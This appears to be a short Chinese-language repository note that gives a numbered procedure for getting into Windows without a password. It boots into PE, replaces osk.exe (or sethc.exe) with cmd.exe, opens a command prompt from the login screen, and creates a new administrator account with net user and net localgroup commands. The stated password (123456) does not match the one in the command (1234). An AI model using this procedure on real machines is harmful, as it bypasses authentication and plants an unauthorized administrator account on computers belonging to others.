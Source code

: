 # 无密码进入Windows系统
很老的一个方案,但依然有效.
1. 用PE启动电脑
2. 将原`C:\Windows\System32\osk.exe`文件改为`C:\Windows\System32\osk.exe.bak`
3. 将`C:\Windows\System32\cmd.exe`复制为`C:\Windows\System32\osk.exe`
4. 退出PE,启动电脑,登录界面选择屏幕键盘,此时会弹出命令行窗口
5. 执行,新建test用户,密码为123456,加入管理员组
    ```bat
    net user test 1234 /add
    net localgroup administrators test /add
    ```

能物理接触计算机用不着如此麻烦,但有些情况下还是有用的,以上也可用粘滞键`sethc.exe`.